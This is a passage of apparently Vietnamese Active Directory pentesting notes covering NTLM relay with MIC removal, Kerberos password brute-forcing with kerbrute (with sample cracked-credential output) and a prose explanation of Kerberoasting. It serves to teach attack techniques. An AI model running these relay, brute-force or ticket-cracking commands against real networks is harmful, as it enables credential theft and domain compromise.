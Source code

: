 ![](img/ntlm_mic_protection.png)


```none
nmap --script=smb2-security-mode -p445 192.168.184.132  
python3 ntlmrelayx.py -t 192.168.184.134 --remove-mic
```


# Kerberos

## Kerberos brute-force

Ta có thể sử dụng  [Rubeus brute](https://github.com/GhostPack/Rubeus#brute), [kerbrute (Go)](https://github.com/ropnop/kerbrute), [kerbrute (Python)](https://github.com/TarlogicSecurity/kerbrute) hoặc [cerbero](https://github.com/Zer1t0/cerbero#brute)

```text
$ python kerbrute.py -domain contoso.local -users users.txt -passwords passwords.txt -dc-ip 192.168.100.2
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Valid user => Anakin
[*] Blocked/Disabled user => Leia
[*] Valid user => Han [NOT PREAUTH]
[*] Valid user => Administrator
[*] Stupendous => Anakin:Vader1234!
[*] Saved TGT in Anakin.ccache
```

## Kerberoast

Trong Active Directory, một ST có thể được yêu cầu bởi bất kỳ người dùng nào đối với bất kỳ dịch vụ nào mà nó được đăng ký trong domain database thông qua SPN , bất kể dịch vụ đó có đang chạy hay không.
Hơn nữa, ST sẽ được mã hóa một phần bằng khóa Kerberos (bắt nguồn từ mật khẩu) của service user. Do đó, nếu bạn nhận được ST, bạn có thể thử bẻ khóa mật khẩu người dùng dịch vụ bằng cách cố gắng giải mã ST.
Hầu hết các dịch vụ được đăng ký trong tài khoản máy, có mật khẩu được tạo tự động gồm [120 ký tự, thay đổi hàng tháng](https://adsecurity.org/?p=280) , vì vậy việc bẻ khóa ST của chúng là không khả thi.
Tuy nhiên, đôi khi các dịch vụ được gán cho các tài khoản người dùng thông thường, do mọi người quản lý, có thể có mật khẩu yếu. Các ST của các dịch vụ đó sẽ cho phép bẻ khóa chúng để lấy mật khẩu của người dùng.
Cuộc [tấn công Kerberoast](https://en.hackndo.com/kerberoasting/) bao gồm các yêu cầu ST cho các dịch vụ đó của các tài khoản người dùng thông thường và cố gắng bẻ khóa chúng để lấy mật khẩu của người dùng. Thông thường, người dùng đăng kí dịch vụ cũng có đặc quyền, vì vậy đây là những tài khoản ngon.
